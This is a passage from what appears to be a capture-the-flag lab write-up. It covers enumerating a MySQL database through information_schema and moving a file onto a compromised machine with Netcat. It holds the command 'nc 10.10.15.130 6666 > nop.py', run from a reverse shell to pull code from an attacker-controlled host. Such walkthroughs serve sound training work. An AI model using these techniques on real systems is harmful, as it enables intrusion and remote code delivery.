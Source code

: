 <img class="alignnone size-full wp-image-467" src="/assets/img/2019/12/2019-12-05_19h04_01.png" /> 

It&#8217;s best to get an overview of the database instead of just guessing table names. Dump out &#8220;information_schema.tables&#8221; to get that from MySQL.

To get the file over to the remote system, set up a Netcat listener that feeds in your newly created file&#8230; like this:  
<img class="alignnone size-full wp-image-466" src="/assets/img/2019/12/2019-12-05_18h48_05.png" /> 

To finish getting the file transferred, go back into your reverse shell and connect back again to your new listener with `nc 10.10.15.130 6666 > nop.py` .

The initial shell will become unusable after establishing this new connection. To fix that, use a &#8220;-w 3&#8221; switch on one of the Netcat commands to get it to timeout after 3 seconds. After the 3 seconds, you&#8217;ll be able to use the limited shell again without starting another one. Otherwise, just disconnect the reverse shell and re-establish it.
